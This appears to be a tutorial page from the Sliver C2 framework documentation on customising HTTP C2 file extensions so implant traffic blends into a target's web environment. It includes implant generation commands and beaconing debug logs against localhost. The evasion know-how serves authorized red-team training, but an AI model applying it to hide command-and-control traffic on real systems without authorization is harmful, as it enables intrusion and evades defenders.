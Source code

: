 # Advanced web traffic configuration

When generating implants sliver uses a subset of the configuration values defined in `~/.sliver/configs/http-c2.json` which can be arbitrarily modified. Keep in mind changing this configuration will break any previously created implants, so changes should happen before generating payloads.

The full list of possible configuration option can be found in the references section below, but for now lets instead customise the existing configuration.

Lets imagine we’re trying to breach a customer known for using ruby-on-rails. By default sliver will use:

- `.woff` for staging
- `.js` for poll requests
- `.html` for key exchanges
- `.png` for close session
- `.php` for session messages

Let’s go ahead and update the session messages and staging with something more realistic.

```bash
"session_file_ext": ".css",
"stager_file_ext": ".ico",
```

The next step is to restart the server and generate a new implant.

```bash
[server] sliver > generate -b localhost --skip-symbols --debug --os macos

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 2s
[*] Implant saved to /Users/tester/ELECTRICAL_WOODSHED

[*] Session 73a2d969 ELECTRICAL_WOODSHED - [::1]:61672 (test.local) - darwin/amd64 - Tue, 25 Apr 2023 15:27:13 CEST
```

If you now look at the debug output you’ll notice we no longer have .php urls.

```bash
2023/04/25 15:27:41 httpclient.go:672: [http] segments = [oauth2 v1 authenticate auth], filename = index, ext = css
2023/04/25 15:27:41 httpclient.go:482: [http] POST -> http://localhost/oauth2/v1/authenticate/auth/index.css?p=711x58387 (2228 bytes)
2023/04/25 15:27:41 httpclient.go:488: [http] POST request completed
2023/04/25 15:27:42 httpclient.go:287: Cancelling poll context
2023/04/25 15:27:42 httpclient.go:672: [http] segments = [assets], filename = jquery, ext = js
2023/04/25 15:27:42 httpclient.go:406: [http] GET -> http://localhost/assets/jquery.js?r=72074674
2023/04/25 15:27:42 sliver.go:198: [recv] sysHandler 12
2023/04/25 15:27:42 session.go:189: [http] send envelope ...
2023/04/25 15:27:42 httpclient.go:672: [http] segments = [oauth v1 oauth2], filename = admin, ext = css
2023/04/25 15:27:42 httpclient.go:482: [http] POST -> http://localhost/oauth/v1/oauth2/admin.css?j=56685386 (93 bytes)
```

The next step would be to update the filenames and path used during generation to further blend into our target environment. One way to do that would be to use web enumeration lists such as the ones found here [https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content) to adapt your c2 traffic.

As an exercise try creating a profile for an environment using jsp’s.

## References

- [https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2)
- [https://github.com/BishopFox/sliver/wiki/C2-Advanced-Options](https://github.com/BishopFox/sliver/wiki/C2-Advanced-Options)
- [https://github.com/BishopFox/sliver/wiki/Configuration-Files](https://github.com/BishopFox/sliver/wiki/Configuration-Files)

